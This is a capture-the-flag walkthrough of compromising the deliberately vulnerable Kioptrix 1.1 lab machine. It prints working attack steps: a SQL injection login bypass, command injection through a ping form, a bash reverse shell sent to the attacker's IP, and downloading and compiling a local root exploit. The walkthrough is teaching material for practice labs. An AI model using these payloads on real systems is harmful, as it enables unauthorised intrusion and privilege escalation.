 # Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `netdiscover -i eth0 -r 10.0.2.0/24` to find the IP address of the vulnerable machine. The arguments to the `netdiscover` command specify that the network device `eth0` should be used for sniffing for ARP packets, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/netdiscover.png "netdiscover -i eth0 -r 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`netdiscover` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.4`, because VirtualBox typically uses the `08:00:27` MAC address prefix. After `ping`ing both of the addresses, it is determined that `10.0.2.4` is the target, because it replies to the pings.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.4` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.4`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.4 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Next, since http is running on port 80, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.4` in Firefox gives us a login screen for remote system administration. This seems like a promising attack vector.

![](images/login.png "http://10.0.2.4 loaded in Firefox")

Since MySQL is also running on the target machine, it's likely that this login form is using SQL, and we can check to see if it's vulnerable to an SQL injection. A simple login SQL query would be something like `SELECT id FROM Users WHERE Username = 'InputUsername' AND Password = 'InputPassword'`, so we can manipulate the username and password parameters to get a valid SQL statement that will let us log in. If we use `' OR ''='` for both the username and the password, then the SQL query becomes `SELECT id FROM Users WHERE Username = '' OR ''='' AND Password = '' OR ''=''`, which checks to see if there exists a username and password combo that are empty strings, or if `''=''`, which is true. This means that the SQL statement is valid, and it will log us in as the first user in the user table, and we now have access to the administrative console.

![](images/console.png "Using ' OR ''=' for both the username and password logs us in to the admin console")

This console provides a text box where we can input an IP address and the target will ping it and provide the results for us.

![](images/ping.png "Result of putting 8.8.8.8 into the text box and submitting")

Interestingly enough, the results that are provided seem to be the same as if the Unix command `ping -c 3 8.8.8.8` was used. Could it be possible that the web console is just throwing what we type into the text box into the command and executing it on the server? Let's test out this theory by putting `8.8.8.8; whoami` into the field. This will allow us to run the `whoami` command after the server pings 8.8.8.8, and if our hypothesis is correct, we'll see the user that the console is running the command as.

![](images/whoami.png "Result of putting 8.8.8.8; whoami into the text box and submitting")

Looks like the idea was right. We can see that after the ping results, there's a line for "apache," meaning that this is who the commands are running under, and that we have remote command execution on the machine. However, we don't have root access yet, which is our main objective. Additionally, our access is limited to just sending commands, we don't have a completely interactive way of communicating with the target machine. These issues are what we will solve in the next step.

## Elevating access

Let's try to achieve an interactive way to talk to the target machine. Since we can execute a command with the administrative web console, we can use `nc` on our attacking machine and `bash` on the console to start an interactive session. The command `nc -lvp 4444` on our attacking system allows us to listen on port 4444 for incoming connections and provide verbose output. After this is listening, we can submit `; bash -i >& /dev/tcp/10.0.2.5/4444 0<&1` into the text box and this will connect our two machines with an interactive session. The arguments to the `bash` command will run a new interactive instance of bash with standard output and standard error being redirected to a TCP connection to the chosen IP address and port, in this case our attacker's VM and the port that `nc` is listening on, and that standard input will be read through this connection.

![](images/connected.png "The two machines now have an interactive session")

After submitting this, the web browser will display a constantly loading page and our `nc` listener will now have a `bash` shell waiting for us.

Now that we're connected to the target machine, we need to find a way to gain root access, as the apache user we're logged in as doesn't have sudo or root privileges. We're going to see what directory we're currently in with the `pwd` command, and we'll use `ls -l` to see if we're allowed to write to any files in our current directory. Then, we'll attempt to find out what specific operating system the target machine is running with `uname -a`, `lsb_release -a`, and `cat /etc/*-release` to see if there are any useful local exploits we can run.

![](images/info.png "Information gathered about our target system")

From the results of these commands, we can see that we're currently in the /var/www/html directory, where we are not allowed to write to any files, and that the target is running CentOS 4.5. We can use the `searchsploit` command again on our attacking machine to see if we can find any local privilege escalation exploits that we can use. Running `searchsploit centos local -o` will show all of the local exploits available for CentOS, with the `-o` flag allowing the exploit names to be fully shown. While it may not look pretty, it will help us find the exploit we want easier.

![](images/centos.png "searchsploit centos local -o shows us the available local exploits for CentOS")

We can see that there are a few local privilege escalation exploits to choose from, and after trying them all, I've found that exploits/linux/local/9545.c is the one that works best. Now, we need to get the exploit loaded on the target machine.

Since the apache user can't write to the current directory it's in, we will use the /tmp directory, which can be written to and read by any user. A simple `cd /tmp` will take us there. We can then use the `wget` command to download the exploit source code from [exploit-db](https://www.exploit-db.com/raw/9542/ "The source code for the exploit we're using") onto the target. The specific command we'll use will be `wget --no-check-certificate http://www.exploit-db.com/raw/9542 -O exploit.c`, which will bypass certificate verification (you shouldn't do this unless you are convinced of the site's authenticity or you don't care about the validity of its certificate), and download the contents of the page into the exploit.c file.

Once the exploit is downloaded, we can use `gcc` to compile it because it's source code written in C. After you compile the exploit with `gcc exploit.c`, there will be an executable file called a.out, and now you can run the exploit with `./a.out`. We can see that the exploit worked because our prompt symbol changed from `$` to `#`, and if we run `whoami`, we can see that we are now root!

![](images/escalation.png "Downloading and executing the exploit")
